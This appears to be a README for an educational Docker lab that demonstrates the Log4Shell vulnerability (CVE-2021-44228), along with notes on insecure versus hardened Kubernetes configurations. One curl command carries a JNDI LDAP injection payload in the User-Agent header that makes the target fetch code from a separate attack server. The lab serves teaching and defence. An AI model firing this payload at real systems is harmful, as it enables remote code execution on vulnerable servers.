 # Log4Shell (CVE-2021-44228) Demo Environment

⚠️ **WARNING**: This is a demonstration of Log4Shell vulnerability (CVE-2021-44228) for educational purposes only.
Do not use in production.

## Quick Start Guide

### Step 1: Deploy Environment
```bash
docker compose down
docker compose build
docker compose up
```

### Step 2: Test Vulnerability
```bash
curl -H "User-Agent: ${jndi:ldap://attack-server:10389/cn=badcode,dc=predic8,dc=de}" http://localhost:9090
```
### Step 3: Check Results
You should see this output in logs:
```log
[!] YOU'VE BEEN H4CKED! [!]
[*] Current directory: /app
[*] Your system belongs to us now >:)
[-] Have a nice day! muhahahaha!
```
### Kubernetes Deployment Examples
Project includes two deployment examples demonstrating security configurations:
### Bad Practice Example (k8s/bad-deployment.yaml)
Shows dangerous configurations you should avoid:
- Privileged mode enabled
- Host network access
- Root user
- Unrestricted capabilities
- Host path mounts
- Service account token auto-mount

### Good Practice Example (k8s/good-deployment.yaml)
Demonstrates security best practices:
- Non-root user
- Minimal capabilities
- Read-only root filesystem
- Resource limits
- No privileged mode
- No service account token
- SecurityContext restrictions

### Project Structure
```
.
├── attack-server/         # LDAP and HTTP servers
├── demo-vuln-app/        # Vulnerable application
├── k8s/                  # Kubernetes manifests
└── docker-compose.yaml   # Docker Compose config
```
### Security Notes

This is for educational purposes only
Demonstrates Log4Shell vulnerability safely
Shows Kubernetes security best practices
Illustrates container security principles

### References

CVE-2021-44228
Kubernetes Security
Docker Security

### License
Educational use only. Use responsibly.
